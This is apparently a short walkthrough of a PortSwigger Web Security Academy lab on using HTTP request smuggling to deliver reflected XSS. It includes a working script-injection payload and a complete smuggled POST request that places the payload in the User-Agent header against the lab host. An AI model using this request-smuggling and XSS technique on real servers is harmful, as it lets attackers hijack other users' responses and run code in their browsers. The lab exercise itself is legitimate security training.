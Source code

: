 Title: Exploiting HTTP request smuggling to deliver reflected XSS
Level: PRACTITIONER 
Desc:  This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.
The application is also vulnerable to reflected XSS via the User-Agent header.
To solve the lab, smuggle a request to the back-end server that causes the next user's request to receive a response containing an XSS exploit that executes alert(1). 

# Walkthrough:

<img width="1499" height="518" alt="image" src="https://github.com/user-attachments/assets/e4cca1ba-00c9-4aaf-a224-4de1a7a293e3" />

<img width="1559" height="534" alt="image" src="https://github.com/user-attachments/assets/2e2ac664-4ae5-4b72-8ca1-e2d4326c50a3" />

payload: `miazga"><script>alert(1)</script>//`

I have working (in my browser) payload to make request smuggling and xss attack at the same request:
```
POST / HTTP/1.1
Host: 0a8a004a047426b1805712960069003c.web-security-academy.net
Cookie: session=UHvMYhtdRoP1Fz87tjLsMFTrcXuwPrdJ
Content-Length: 154
Transfer-Encoding: chunked

0

GET /post?postId=9 HTTP/1.1
Host: 0a8a004a047426b1805712960069003c.web-security-academy.net
User-Agent: miazga"><script>alert(1)</script>//
Foo: x
```

I solved the lab!

